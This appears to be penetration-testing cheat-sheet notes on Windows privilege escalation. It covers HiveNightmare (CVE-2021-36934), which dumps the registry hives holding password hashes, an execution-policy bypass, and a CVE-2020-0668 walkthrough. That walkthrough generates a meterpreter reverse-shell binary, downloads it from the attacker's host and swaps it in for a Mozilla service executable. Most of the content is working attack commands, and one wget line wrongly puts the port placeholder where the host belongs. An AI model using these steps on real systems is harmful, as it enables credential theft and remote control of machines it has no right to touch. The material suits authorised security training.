CVE-2021-36934 HiveNightmare, aka SeriousSam is a Windows 10 flaw that results in ANY user having rights to read the Windows registry and access sensitive information regardless of privilege level. Researchers quickly developed a PoC exploit to allow reading of the SAM, SYSTEM, and SECURITY registry hives and create copies of them to process offline later and extract password hashes (including local admin).

**CVE-2021-36934 HiveNightmare**
````
# Checking Permissions on the SAM File
> icacls c:\Windows\System32\config\SAM
C:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Users:(I)(RX)

# Performing Attack and Parsing Password Hashes
> .\HiveNightmare.exe
````

**Bypassing the execution policy**
````
> Set-ExecutionPolicy Bypass -Scope Process
````

**Enumerating Missing Patches**
````
# Examining Installed Updates
> systeminfo
> wmic qfe list brief
> Get-Hotfix
````

**CVE-2020-0668 Example**

Microsoft CVE-2020-0668: Windows Kernel Elevation of Privilege Vulnerability, which exploits an arbitrary file move vulnerability leveraging the Windows Service Tracing. Service Tracing allows users to troubleshoot issues with running services and modules by generating debug information. Its parameters are configurable using the Windows registry. Setting a custom MaxFileSize value that is smaller than the size of the file prompts the file to be renamed with a .OLD extension when the service is triggered. This move operation is performed by NT AUTHORITY\SYSTEM, and can be abused to move a file of our choosing with the help of mount points and symbolic links.
````
# Checking Current User Privileges
> whoami /priv

https://github.com/RedCursorSecurityConsulting/CVE-2020-0668

# Checking Permissions on Binary
> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
BUILTIN\Users:(I)(RX)

# Generating Malicious Binary
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<Our_IP> LPORT=<Our_Port> -f exe > maintenanceservice.exe

# Downloading the Malicious Binary (Twice)
> wget http://<Our_IP>:8080/maintenanceservice.exe -O maintenanceservice.exe
> wget http://<Our_Port>:8080/maintenanceservice.exe -O maintenanceservice2.exe

# Running the Exploit
> CVE-2020-0668.exe C:\Users\<user>\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

# Checking Permissions of New File
> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
WINLPE-WS02\<user>:(F)

# Replacing File with Malicious Binary
````